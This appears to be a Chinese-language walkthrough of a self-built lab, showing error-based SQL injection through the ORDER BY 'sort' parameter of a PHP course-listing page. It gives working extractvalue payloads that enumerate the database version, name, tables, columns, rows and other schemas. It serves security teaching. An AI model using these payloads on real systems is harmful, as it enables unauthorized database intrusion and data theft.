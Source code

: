 # 自建靶场-报错注入—课程信息中心

#### 靶场只有一个表格，输入点只有   ?sort=   变量用于排序

```
http://8.148.75.207:321/index.php?sort=course_name   课程名称
http://8.148.75.207:321/index.php?sort=teacher       授课讲师
http://8.148.75.207:321/index.php?sort=hours         总课时
http://8.148.75.207:321/index.php?sort=category      课程类别
```

猜测后端查询语句大概率是

```
select "course_name","teacher","hours","category" from <表名> 
order by <sort的传参>  即是注入点
```

![image-20250902180857427](images/image-20250902180857427.png)



这类场景在 **SQL 注入分类** 里叫做 **基于 `ORDER BY` 的注入（order by injection）**。它的特征是：

- 参数只能进入 `ORDER BY` 位置，无法直接拼接到 `WHERE`、`SELECT` 里。
- 因此 **不能通过传统的 `' OR 1=1 --` 这种方式注入数据**。
- 但可以通过构造特殊的输入，使 `ORDER BY` 产生语法错误、类型错误、子查询，进而泄露信息。

------

### 

#### （1）**确认注入点是否可控**

- 输入不存在的字段名

  ```
  ?sort=abc
  ```

  ![image-20250902182050721](images/image-20250902182050721.png)

  报错（unknown column），再次证明了sort是是直接拼接到 `ORDER BY`后面的。

- 输入数字测试：

  ```
  ?sort=1
  ?sort=2
  ```

  返回的排序顺序改变，说明支持 **字段序号**。

  ![image-20250902182230159](images/image-20250902182230159.png)



#### （2）尝试报错注入获取版本

```http
?sort=extractvalue(1,concat(0x7e,(version()),0x7e))
```

- 后端会报错并显示版本信息（因为 `$conn->error` 会输出）。

![image-20250902184705234](images/image-20250902184705234.png)

爆破注入可行，尝试进一步获取信息

------

## **2️⃣ 取当前数据库名**

```http
?sort=extractvalue(1,concat(0x7e,(database()),0x7e))
```

- 数据库名：`wodeadmin` 
- ![image-20250902184838219](images/image-20250902184838219.png)

------

## **3️⃣ 获取所有表名（逐张表）**

- 尝试获取第 1 张表：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e))
```

![image-20250902184947588](images/image-20250902184947588.png)

> [!NOTE]
>
> ### 当前表的名字叫 courses



- 尝试获取第 2 张表：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),0x7e))
```

没有返回值了，当前数据库只有一张表

------

## **4️⃣ 获取某张表的列名（逐列）**

目标表是 `courses`：

- 第 N 列：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='courses' LIMIT N-1,1),0x7e))
```

> [!NOTE]
>
> 列名最开始的时候变量***sort***已经暴露，可以验证一下



------

## **5️⃣ 获取表中数据**

- 用 `concat()` 组合多列,

```http
?sort=extractvalue(1,concat(0x7e,(SELECT concat(course_name,0x3a,teacher,0x3a,hours,0x3a,category,0x3a) FROM courses LIMIT 0,1),0x7e))
```

- `0x3a` 是 `:` 分隔符。

- ![image-20250902191027843](images/image-20250902191027843.png)

  过长了，需要单独查一下   category

------



##  查询其他数据库

- **爆所有数据库名**：

```sql
SELECT schema_name FROM information_schema.schemata;
```

结合报错注入：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT CAST(schema_name AS CHAR) FROM information_schema.schemata LIMIT 0,1),0x7e))
```

![image-20250902191222693](images/image-20250902191222693.png)

- #### 依次递增 `LIMIT` 索引，可以枚举所有数据库。

- #### 看当前用户的权限，权限够大，就可以爆其他数据库

- #### 由于是本机，后续不做演示

### 总结注入特征

| 属性                  | 分析                       |
| --------------------- | -------------------------- |
| 注入参数              | `sort`                     |
| 注入位置              | `ORDER BY` 子句            |
| 注入方式              | 直接拼接，无过滤           |
| 可利用手段            | 报错注入、盲注、子查询排序 |
| 数据库泄露难度        | 中等，需利用排序副作用     |
| 无法直接写入/修改数据 | 是                         |

------

💡 **核心结论**：

- 注入点在 `?sort=`，只影响 `ORDER BY`。
- 可以通过函数或子查询获取信息（version(), database(), table_name 等）。
- 如果开启报错回显，直接报错注入最简单；如果没有报错，走盲注。
- 不适合直接读取列数据，需要逐步爆。